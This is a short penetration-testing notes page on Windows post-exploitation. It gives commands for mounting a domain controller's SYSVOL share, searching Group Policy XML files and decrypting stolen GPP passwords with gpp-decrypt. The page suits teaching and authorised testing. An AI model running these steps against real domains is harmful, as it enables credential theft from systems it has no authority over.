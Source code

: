 > Windows Specific knowledge not covered in the other sections

A note: this information should be combined with [[Network Security/Post Exploitation]]

## On the client

> Approaches to gather information on the client.

### Domain context

> If the client is in a domain, Group Policies are applied and may contain information (historic data may remain on the `sysvol` share)

- Mount the share and check the files (has to be done on a shell not meterpreter!):

```cmd
# Mount
net use X: \\%LOGONSERVER%\SysVol  # LOGONSERVER is a domain controller

# Switch the volume
X:

# enter the GPO folder
cd domain.local\Policies
dir

# Search for xml files (may contain interesting things)
dir /s *.xml
```

Decrypt passwords contained in the GPO files on your kali machine:

```bash
gpp-decrypt <yourStolenEncryptedPasswordHere>
```


### Local Context

> Show local information of the client